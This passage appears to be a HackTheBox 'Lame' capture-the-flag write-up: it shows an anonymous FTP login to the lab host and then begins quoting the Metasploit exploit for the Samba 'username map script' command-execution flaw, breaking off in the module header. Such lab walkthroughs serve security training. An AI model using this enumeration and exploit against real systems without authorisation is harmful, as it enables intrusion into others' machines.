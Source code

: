 Since `FTP` port is open and seems to allow `Anonymous` login we will try to log in and see if we can find anything.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:darshan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||57000|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||13084|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||48290|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> 

```
We found nothing there, next thing we can see in our initial enumeration is that Samba is running with version 3.0.20-Debian, with a fast google search we will find that it is vulnerable to a [Remote Heap Overflow](https://www.exploit-db.com/exploits/16320)

```ruby
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::SMB

	# For our customized version of session_setup_ntlmv1
	CONST = Rex::Proto::SMB::Constants
	CRYPT = Rex::Proto::SMB::Crypt

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Samba "username map script" Command Execution',
```